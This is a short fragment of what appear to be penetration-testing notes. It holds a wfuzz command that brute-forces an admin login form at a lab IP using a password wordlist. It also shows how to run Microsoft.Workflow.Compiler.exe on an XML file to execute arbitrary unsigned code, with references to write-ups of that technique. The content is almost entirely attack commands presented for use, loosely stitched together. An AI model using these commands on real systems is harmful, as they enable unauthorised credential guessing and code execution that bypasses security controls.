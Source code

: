 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
<b> Workflow.Compiler </b>

<pre> C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe test.xml results.xml </pre>

![workflow](https://user-images.githubusercontent.com/7115563/46660701-e79bc800-cbb7-11e8-8e07-49615b17d258.png)

References:

https://www.codeproject.com/Articles/25983/How-to-Execute-a-Command-in-C
https://posts.specterops.io/arbitrary-unsigned-code-execution-vector-in-microsoft-workflow-compiler-exe-3d9294bc5efb





